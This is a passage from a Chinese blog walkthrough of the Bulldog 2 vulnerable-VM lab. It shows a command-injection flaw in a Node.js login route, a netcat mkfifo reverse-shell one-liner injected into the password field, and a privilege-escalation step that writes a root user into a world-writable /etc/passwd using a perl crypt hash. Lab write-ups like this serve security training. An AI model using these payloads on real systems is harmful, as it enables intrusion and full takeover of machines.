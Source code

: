 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232525626.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232546264.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
### 反弹SHELL

 当密码过长时，会返回报错信息，在报错信息中发现目录名称
 
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019121323262274.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
搜Bulldog-2-The-Reckoning在github上发现命执行漏洞源码 

```
user.js
router.post('/linkauthenticate', (req, res, next) => {
  const username = req.body.password;
  const password = req.body.password;

  exec(`linkplus -u ${username} -p ${password}`, (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }
  console.log(`stdout: ${stdout}`);
  console.log(`stderr: ${stderr}`);});
```

尝试用netcat在登陆界面反弹shell，在用户名后面写好语句后，在测试机开启端口的监听

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232712893.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.72.141 888 >/tmp/f;
```

在密码处插入shell的反弹脚本，并在kali上开启端口的监听

成功获得用户的shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232758636.png)

### 提权

进入/etc目录中，发现存放用户名和密码的文件竟然时777，可以向其中写入一个管理员权限的用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019121323283928.png)

可以仿照这个格式写入一个管理员权限的用户

![在这里插入图片描述](https://img-blog.csdnimg.cn/20191213232905590.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQyMjg4MTIz,size_16,color_FFFFFF,t_70)

使用加密命令，得到一个加密后的密码。123456为加密的密码；aa表示使用的加密盐（可以有aa,sa,Fx等），如果不使用加密盐，那么输出的字符串将不是crypt加密格式，而是MD5加密格式的。所以，加密盐其实是必须的参数。

![在这里插入图片描述](https://img-blog.csdnimg.cn/2019121323293590.png)
```
perl -le 'print crypt("123456","aa")'
```
